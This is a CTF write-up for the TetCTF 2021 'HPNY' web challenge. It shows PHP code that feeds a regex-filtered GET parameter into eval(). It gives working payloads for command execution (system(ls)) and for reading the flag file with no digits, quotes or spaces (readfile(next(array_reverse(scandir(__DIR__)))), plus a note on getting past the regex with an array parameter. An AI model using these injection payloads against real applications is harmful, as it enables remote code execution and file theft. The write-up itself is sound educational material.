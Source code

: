 ```yaml
---
title: "Reading files in PHP without numbers, quotes, spaces and most other symbols."
excerpt: "Writeup for the HPNY Web chall from [TetCTF 2021](https://ctftime.org/event/1213)."
date: 2021-01-04T16:23:30-03:00
categories:
  - Cybersecurity
tags:
  - Web
  - PHP
  - TetCTF 2021
  - CTF
---
```


This chall had a page that allowed a user to get a "happy new year" phrase in different languages, as well as getting a lucky number. The user could choose which function he wanted by passing it as a query parameter in the URL. The PHP code was given:

```php
<?php

function get_lucky_word() {
    $words = array("Chuc mung nam moi", "gongxifacai", "happy new year!", "bonne année", "Akemashite omedeto gozaimasu", "Seh heh bok mahn ee bahd euh sae yo", "kimochi", "Feliz Año Nuevo", "S novim godom", "Gelukkig Nieuwjaar", "selamat tahun baru", "iniya puthandu nal Vazhthukkal");
    return $words[array_rand($words)];
}

function get_lucky_number() {
    $numb = rand(0,100);
    return strval($numb);
}


if(!isset($_GET["roll"])) {
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[a-z\(\)\_\.]+$/i', $_GET["roll"]);

    if($wl === 0 || strlen($_GET["roll"]) > 50) {
        die("bumbadum badum");
    }
    eval("echo ".$_GET["roll"]."();");
}

?>
```

For example, if the user wanted a lucky number: http://139.180.155.171:8003/?roll=get_lucky_number

As can be seen in the code, the "value" parameter is passed to `eval()`, which is a good indicator of a code execution vulnerability. The problem is the regex that comes just before is filtering a lot of characters from the input. So the payload cannot have numbers, spaces, quotes, and most other symbols. Only letters, parenthesis, underscores, and dots were allowed.

## The solution

At first, I thought there would be a way to bypass the regex in a way that I could use the forbidden characters. I achieved it by transforming the "roll" parameter in an array: `http://139.180.155.171:8003/?roll[]="som3 payload"`. This payload bypassed the regex. However, the `eval()` just printed `Array` on the screen, and I could not find a way to use the content inside the array. It was a dead end.

Next, I got some code execution with `roll=system(ls)`, which returned the content of the directory in the server:

```
fl4g_here_but_can_you_get_it_hohoho.php
index.php
```

I don't know why it worked without wrapping `ls` in quotes, but ok. Now I had another problem: how to read the file, as it has a number in its name. Also, without using quotes.

After a lot of time, I got this solution: `roll=readfile(next(array_reverse(scandir(__DIR__))))`. What it is doing is:

- `__DIR__`: It's a string that contains the path of the current directory. Same thing as `getcwd()`.
- `scandir(__DIR__)`: Returns an array where each entry is the name of a file in the `__DIR__` folder.

This looks great. However, `scandir(__DIR__)` returned the following array: `array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(39) "fl4g_here_but_can_you_get_it_hohoho.php" [3]=> string(9) "index.php" }` (can be checked with the payload `roll=var_dump(scandir(__DIR__))`). The file with the flag is the penultimate element of the array. How can I get this specific element in the array without using `[]`?

- `array_reverse(scandir(__DIR__))`: I reverse the array, so now the file is the second element, not the penultimate anymore.
- `next(array_reverse(scandir(__DIR__)))`: This got the second element of the array as a string.
- `readfile(next(array_reverse(scandir(__DIR__))))`: Finally, I could read the file content!

```
<?php

$flagsssssssss = "TetCTF{lixi_50k_<3_vina_*100*25926415724382#}";

?>
```

Really nice challenge. Kudos to the creator.
